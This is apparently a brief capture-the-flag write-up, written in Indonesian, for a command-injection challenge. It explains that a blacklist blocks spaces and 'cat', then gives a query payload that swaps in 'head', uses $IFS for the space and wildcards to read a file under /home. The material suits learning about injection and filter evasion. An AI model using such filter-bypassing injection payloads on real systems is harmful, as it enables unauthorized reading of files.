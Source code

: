 ## How To

Karena ' ' space, dan cat di filter blacklist jadi menggunakan head

### Contoh Menggunakan `cURL`

localhost:11102/?query=head$IFS/home/????????